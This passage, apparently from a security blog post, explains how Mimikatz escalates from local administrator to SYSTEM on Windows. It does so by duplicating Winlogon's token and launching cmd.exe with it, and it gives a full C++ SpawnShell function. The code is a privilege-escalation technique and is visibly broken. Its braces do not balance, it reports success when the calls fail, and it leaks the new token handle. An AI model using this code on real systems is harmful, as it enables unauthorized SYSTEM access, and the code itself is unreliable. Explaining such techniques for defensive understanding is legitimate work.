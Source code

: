 
Once the Winlogon PID is found there is the need to open the Process Handle of this `SYSTEM` level process (in our case, `Winlogon.exe`). Following, we can open a Process Token from the already opened Process Handle using `OpenProcessToken()`. The Token Handle will be duplicated using `DuplicateTokenEx()` function and handed to a newly created `HANDLE`. After the Duplication process of the token is done, we will create a new process using the newly duplicated token. To create a new process with this token we will use the `CreateProcessWithTokenW()` function.

```cpp
BOOL SpawnShell( int WinlogonPid )
{
    HANDLE hAccessToken = NULL;
    HANDLE hToken = NULL;
    HANDLE NewToken = NULL;

    SECURITY_IMPERSONATION_LEVEL se_impersonate_level = SecurityImpersonation;
    TOKEN_TYPE token_type = TokenPrimary;

    STARTUPINFOEX startup_info = {};
    PROCESS_INFORMATION process_info = {};

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, WinlogonPid);
    if (hProcess)
    {
        if (OpenProcessToken(hProcess, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hToken))
        {
            if (DuplicateTokenEx(hToken, TOKEN_ASSIGN_PRIMARY | TOKEN_ALL_ACCESS, NULL, se_impersonate_level, token_type, &NewToken))
            {
                if (CreateProcessWithTokenW(NewToken, 0, L"C:\\Windows\\system32\\cmd.exe", NULL, CREATE_NEW_CONSOLE, NULL, NULL, &startup_info, &process_info))
                    return( TRUE );
                    
                }
            }
            CloseHandle(hToken);
        }
        CloseHandle(hProcess);
    }

    return( TRUE );
}
```
## Conclusion
In this blog I didn't show any new technique however I wanted to show some of the techniques that MIMIKATZ uses under the hood to achieve `SYSTEM` level privileges starting from a process running under Local Administrator Privileges. 

Obviously Mimikatz is more complicated than this and one can specify different options that will modify the default behaviour that has been described in this post.
